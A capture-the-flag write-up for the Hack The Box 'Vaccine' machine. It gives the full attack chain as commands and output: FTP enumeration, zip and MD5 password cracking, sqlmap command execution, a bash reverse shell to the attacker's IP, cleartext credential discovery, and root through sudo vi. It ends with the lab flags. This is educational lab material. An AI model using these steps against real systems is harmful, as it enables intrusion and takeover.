



# Vaccine

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Tier 2

## Solution

#### 1. Besides SSH and HTTP, what other service is hosted on this box?

```sh
$ nmap -A -T4 10.129.184.58
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-03 19:45 CET
Nmap scan report for 10.129.184.58
Host is up (0.091s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.15
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.82 seconds
```

> FTP

#### 2. This service can be configured to allow login with any password for specific username. What is that username?

> anonymous

#### 3. What is the name of the file downloaded over this service?

```sh
$ ftp 10.129.184.58
Connected to 10.129.184.58.
220 (vsFTPd 3.0.3)
Name (10.129.184.58): anonymous
331 Please specify the password.
Password: 
230 Login successful.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
226 Directory send OK.
```

> backup.zip

#### 4. What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

> zip2john

#### 5. What is the password for the admin user on the website?

```sh
$ zip2john backup.zip > crack.txt
$ john --wordlist=dictionaries/rockyou.txt crack.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Warning: invalid UTF-8 seen reading ./tools/john/run/john.pot
Cracked 1 password hash (is in ./tools/john/run/john.pot), use "--show"
No password hashes left to crack (see FAQ)
$ john --show crack.txt
backup.zip:741852963::backup.zip:style.css, index.php:backup.zip

1 password hash cracked, 0 left
$ unzip backup.zip 
Archive:  backup.zip
[backup.zip] index.php password: 741852963
  inflating: index.php               
  inflating: style.css  
$ cat index.php | grep password
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
        ... 
```
We get `MD5 hash` `2cb42f8734ea607eefed3b70af13bbd3`, so we use [hashes.com](https://hashes.com/en/decrypt/hash) to crack it:



> qwerty789 

*(We can now login with `admin:qwerty789`)*

#### 6. What option can be passed to sqlmap to try to get command execution via the sql injection?

> --os-shell

#### 7. What program can the postgres user run as root using sudo?

Once we are logged in to the web, we can see the query in the url `http://10.129.184.58/dashboard.php?search=a` with `search` parameter, so we can use `sqlmap` to test it for possible injections *(also we need to grap our `PHPSESSID` cookie from `Developer Tools`)*:

```sh
$ sqlmap -u "http://10.129.184.58/dashboard.php?search=a" --cookie="PHPSESSID=3hbssgb9bbav2tutsj81hd2639"
...
GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
```

So we can get the shell:

```sh
$ sqlmap -u "http://10.129.184.58/dashboard.php?search=a" --cookie="PHPSESSID=3hbssgb9bbav2tutsj81hd2639" --os-shell
... 
os-shell>
```

Next, we will make reverse shell to make it more stable:

```sh
$ nc -l 9001
```

```sh
os-shell> bash -c "bash -i >& /dev/tcp/10.10.16.15/9001 0>&1"
```

Got it:

```sh
nc -l 9001
bash: cannot set terminal process group (2148): Inappropriate ioctl for device
bash: no job control in this shell
postgres@vaccine:/var/lib/postgresql/11/main$
```

We will try to find the password in the /var/www/html folder, since the machine uses both PHP & SQL, meaning that there should be credentials in clear text:

```sh
postgres@vaccine:/var/lib/postgresql/11/main$ cd /var/www/html  
postgres@vaccine:/var/www/html$ ls
bg.png	       dashboard.js   index.php    style.css
dashboard.css  dashboard.php  license.txt
postgres@vaccine:/var/www/html$ cat dashboard.php
...
	if($_SESSION['login'] !== "true") {
	  header("Location: index.php");
	  die();
	}
	try {
	  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
	}
...
```

Got it! `postgres:P@s5w0rd!`

Let's see what we can do now as `root`:

```sh
postgres@vaccine:/var/www/html$ sudo -l
sudo -l
[sudo] password for postgres: P@s5w0rd!

Matching Defaults entries for postgres on vaccine:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

> vi

#### Submit user flag

```sh
postgres@vaccine:/var/lib/postgresql$ cat user.txt
cat user.txt
ec9b13ca4d6229cd5cc1e09980965bf7
```

#### Submit root flag

Let's firstly connect with ssh:

```sh
$ ssh postgres@10.129.184.58
...
postgres@vaccine:~$
```

So we can run `vi` as root, let's see, how can we get `root` permissions on [GTFOBins](https://gtfobins.github.io/gtfobins/vi/):

```sh
vi
:set shell=/bin/sh
:shell
```

Let's open allowed file with vi and then try to switch to `root`:

```sh
postgres@vaccine:~$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```





```sh
root@vaccine:/var/lib/postgresql#
```

And we are in as `root`! Let's get the flag:

```sh
root@vaccine:/var/lib/postgresql# cat /root/root.txt
dd6e058e814260bc70e9bbdef2715849
```


## Final Flags

> `user`: ec9b13ca4d6229cd5cc1e09980965bf7
> `root`: dd6e058e814260bc70e9bbdef2715849

*Created by [bu19akov](https://github.com/bu19akov)*
